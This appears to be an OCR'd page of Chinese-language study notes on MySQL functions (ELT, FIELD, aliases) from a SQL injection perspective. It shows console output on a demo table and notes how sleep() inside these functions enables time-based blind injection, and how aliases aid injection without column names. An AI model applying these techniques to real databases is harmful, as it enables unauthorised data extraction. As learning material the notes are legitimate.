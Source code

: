 ```
mysql> select * from vorname where Vorname='Lina' and elt(1,sleep(1));
Empty set (1.00 sec)

mysql> select * from vorname where Vorname='Lina' and elt(1,sleep(1));
Empty set (0.00 sec)
```

用的时候加上**and短路运算规则**可以进行时间盲注



## FIELD(str,str1,str2,...)

与**ELT**互补，在**str1**，**str2**中寻找**str**，返回找到的下标

```
mysql> select * from vorname where Vorname='Lina' and field(0,sleep(1));
+---------+-----------+-----+
| Vorname | Nachname  | Alt |
+---------+-----------+-----+
| Lina    | Schneider |  22 |
+---------+-----------+-----+
1 row in set (1.00 sec)

mysql> select * from vorname where Vorname='Lina' and field(1,sleep(1));
Empty set (1.00 sec)
```

用的时候加上**and短路运算规则**可以进行时间盲注



## 别名

有个优点应该就是，防止列名太长，或可以给未知列名起名字，也就是无列名注入

🤳其中as可以省略

```
mysql> select if(Alt=22,'yes','no') from vorname;
+-----------------------+
| if(Alt=22,'yes','no') |
+-----------------------+
| yes                   |
| no                    |
| no                    |
| yes                   |
+-----------------------+
4 rows in set (0.00 sec)


mysql> select if(Alt=22,'yes','no') as '22_or_not' from vorname;
+-----------+
| 22_or_not |
+-----------+
| yes       |
| no        |
| no        |
| yes       |
+-----------+
4 rows in set (0.00 sec)


mysql> select if(Alt=22,'yes','no')'22_or_not' from vorname;
+-----------+
| 22_or_not |
+-----------+
```